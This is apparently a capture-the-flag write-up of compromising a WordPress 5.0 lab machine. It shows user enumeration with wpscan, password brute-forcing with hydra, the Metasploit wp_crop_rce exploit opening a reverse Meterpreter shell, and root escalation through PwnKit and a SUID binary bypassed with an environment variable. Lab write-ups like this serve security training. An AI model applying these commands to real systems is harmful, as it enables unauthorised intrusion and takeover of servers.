 Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...
In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.
I found a wordpress blog : http://blog.thm/wp-login.php and also the version is 5.0
it's vulnerable to 	`CVE-2019-8943`
found : https://github.com/v0lck3r/CVE-2019-8943 and : https://www.exploit-db.com/exploits/49512
But for this exploit i need to be authenticated
on author i found : http://blog.thm/author/kwheel/ kwheel.
Here i will first try the exploit, or i can try to bruteforce this username password
I will try to use wpscan to find more users
```
└─# wpscan --url http://blog.thm/ --enumerate u
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

```
found 4 user, now i will try to bruteforce them
```
└─# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt blog.thm -V http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:S=302" 
```
Very slow i used also this:
```
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U username.txt -t 75
```
and Burp Pro

After a lot of patience, i found 
`[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1`
logged in

## SHell
Now i will use the CVE that i found first, for that i use their metasploit module
`   0  exploit/multi/http/wp_crop_rce                    2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload`
```
msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on 10.4.26.216:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.206.103
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.4.26.216:4444 -> 10.10.206.103:47004) at 2023-10-24 20:12:39 +0000


meterpreter > 

```
Successfuly got a meterpreter

## Escalation
I will try SUID

```
www-data@blog:/tmp$ find / -type f -perm /4000 -ls 2>/dev/null  
   394811     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
   394847     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
   394605     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
   394952    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
   394554     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
   415459     12 -rwsr-sr-x   1 root     root         8432 May 26  2020 /usr/sbin/checker


```
for SUID i have pkexec which is Pwnkit, also i have checker that i don't know.
first i will use pkexec
```
www-data@blog:/tmp$ chmod +x pkexec.py
chmod +x pkexec.py
www-data@blog:/tmp$ python3 pkexec.py
python3 pkexec.py
Do you want to choose a custom payload? y/n (n use default payload)  n
n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7fe8952c0000 at 0x7fe895149ba8>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
2nd i will use Checker
When i execute it
```
www-data@blog:/tmp$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```
I will use strings to examine it
```
strings /usr/sbin/checker
admin
/bin/bash
Not an Admin
;*3$"
```
```
www-data@blog:/tmp$ export admin=admin
export admin=admin
www-data@blog:/tmp$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/tmp#
root@blog:/tmp# id;hostnamectl
id;hostnamectl
uid=0(root) gid=33(www-data) groups=33(www-data)
   Static hostname: blog
         Icon name: computer-vm
           Chassis: vm
        Machine ID: a48aa1b7b471491790e2497ef04d3ae8
           Boot ID: 6a761d8160eb4321a14dca7b09043c5e
    Virtualization: xen
  Operating System: Ubuntu 18.04.4 LTS
            Kernel: Linux 4.15.0-101-generic
      Architecture: x86-64
root@blog:/tmp# 
```